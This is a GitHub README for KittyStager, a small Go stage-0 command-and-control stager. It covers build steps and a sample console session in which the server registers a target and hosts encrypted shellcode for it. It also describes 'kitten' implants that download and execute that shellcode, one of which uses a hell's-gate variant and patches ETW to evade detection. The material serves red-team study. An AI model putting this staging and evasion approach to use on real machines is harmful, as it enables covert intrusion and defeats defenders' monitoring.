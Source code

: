 # KittyStager


<p align="center">
  <a href="" rel="noopener">
 <img width=200px height=200px src="./img/chat.png"> </a>
</p>


KittyStager is a simple stage 0 C2. The purpose of this project is to be able to have some stage 0 templates and be 
able to use the with any shellcode. I would not use this project in red team, at least not now.



## Content
- [How it works](#how-it-works)
- [Quick start](#quick-start)
- [Kitten's](#Kitten)
- [Project structure](#project-structure)


## How it works

1. Configure all the settings in the config file
2. Start the server
    1. The server will start
    2. A config file will be created with each kitten
    3. It will configure the sleep time for the kitten
3. Compile the kitten
4. Run the kitten

![](/img/workfow.svg)

## Quick start
How to compile
```
go build -o kittyStager
./kittyStager

cd /kitten/basickitten
go build -o basickitten
./basickitten
```
How to use :
```
~kittyStager ❯ go run .\main.go
                     _
                    / )
                   ( (
     A.-.A  .-""-.  ) )
    / , , \/      \/ /
   =\  t  ;=    /   /
     `--,'  .""|   /
         || |  \\ \
        ((,_|  ((,_\

KittyStager - A simple stager written in Go

[+] Config loaded
[+] Generated conf file for C:\Users\yanng\go\Project_go\GoStager\kitten\basicKitten
[+] Generated conf file for C:\Users\yanng\go\Project_go\GoStager\kitten\bananaKitten
[+] Config file generated
[+] Starting http server
[+] Sleep set to 5s on all targets
[+] Started http server on 127.0.0.1:8080

KittyStager 🐈❯
[+] Request from: 127.0.0.1
[+] User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/102.0
[+] Hostname: TARGET
[+] Username: target
[+] To get more, use the recon 

KittyStager 🐈❯ interact
[*] Targets:
0 - all targets
1 - 127.0.0.1

[*] Please enter the id of the target
id: 1

KittyStager - 127.0.0.1 🐈❯ shellcode
[*] Please enter the path to the shellcode
Path: ..\..\shellcode\shellcode.bin
[+] Key generated is : TARGETTARGETTARGETTARGETTARGET
[+] Shellcode hosted for 127.0.0.1 
```

## [Kitten](/kitten/)
The kitten is the stage 0 payload. It will be compiled and run on the target machine. The kitten will then download the shellcode and execute it.
For the moment, they are only two kittens:
### [BasicKitten](/kitten/basicKitten)
This is the basic kitten, and it has the minimum to work. No fancy injection method, just a 
`VirtualAlloc` -> `RtlCopyMemory` -> `VirtualProtect` -> `CreateThread` -> `WaitForSingleObject`. Use this as example if you want to develop your own kitten.
### [BananaKitten](/kitten/bananaKitten)
This is the more advanced kitten. It will use bananaphone, a variant of hell's gate implemented in Go. [https://github.com/C-Sto/BananaPhone](https://github.com/C-Sto/BananaPhone)
It also patches etw. 

## Project structure
### [kitten](/kitten)
This is the folder where all the kittens are stored. Each kitten has its own folder.
### [cmd](/cmd)
#### [kittyStager](/cmd/kittyStager)
Main file of the project. It will start the server and create the config file for each kitten.
#### [config](/cmd/config)
Used to read and check the config file. The config file is `conf.yml`
#### [http](/cmd/http)
Used to start the server and serve the shellcode.
#### [cli](/cmd/cli)
This is the cli to interact with the server.
#### [interact](/cmd/interact)
This is the cli to interact with a kitten, select a shellcode or change sleep time. 
#### [util](/cmd/util)
It contains all the util functions used in the project.
#### [cryptoUtil](/cmd/cryptoUtil)
It contains all the util functions used to encrypt and decrypt the shellcode.
#### [httpUtil](/cmd/httpUtil)
It contains all the util functions used to interact with the server.
#### [malwareUtil](/cmd/malwareUtil)
It contains all the functions used only by the kittens

